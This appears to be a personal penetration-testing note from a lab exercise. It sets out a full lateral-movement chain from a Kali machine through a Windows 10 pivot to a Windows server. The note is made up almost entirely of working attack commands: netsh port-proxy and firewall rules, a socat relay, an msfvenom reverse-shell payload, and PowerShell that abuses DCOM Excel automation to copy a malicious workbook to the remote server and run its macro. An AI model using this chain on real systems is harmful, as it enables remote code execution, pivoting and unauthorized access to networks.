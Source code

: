 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| My Kali IP | Win10 | WinServ |
| ----------- | ----------- |  ----------- |
| 192.168.119.190 | 192.168.190.10 |  172.16.190.5 |

![[rlwrap]]

Win10:

Forward any traffic on Win10:4444 box to Kali:443:
```command prompt - target
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=192.168.190.10 connectport=443 connectaddress=192.168.119.190
```

Setting up firewall rule:
```command prompt - target
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.190.10 localport=4444 action=allow
```

Setting up socat to forward traffic from port 4444 to kali:443:
```command prompt - target
socat tcp-l:4444,fork,reuseaddr tcp:192.168.119.190:443
```

Generate reverse shell code to execute on the WinServ target:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.190.10 LPORT=4444 -f hta-psh
```

Execute malicious excel file on remote machine for reverse shell to trigger on Kali box.

```powershell - target
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.190.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\myexcel.xls"

$RemotePath = "\\172.16.190.5\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.190.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

